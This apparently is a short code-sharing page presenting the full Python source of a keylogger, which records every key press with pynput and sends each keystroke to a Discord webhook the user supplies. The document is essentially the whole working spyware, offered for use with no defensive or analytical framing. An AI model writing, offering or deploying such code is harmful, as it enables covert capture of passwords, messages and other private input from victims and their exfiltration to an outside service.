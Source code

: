 # Code 

``python
from pynput.keyboard import Listener
from discord_webhook import DiscordWebhook, DiscordEmbed

hook = "" #In "" put ur discord webhook

def writefile(key): 
    try:
        letter = str(key)
        webhook = DiscordWebhook(url=hook, content=letter)
        response = webhook.execute()
    except KeyError:
        pass

with Listener(on_press=writefile) as lis:
    lis.join()
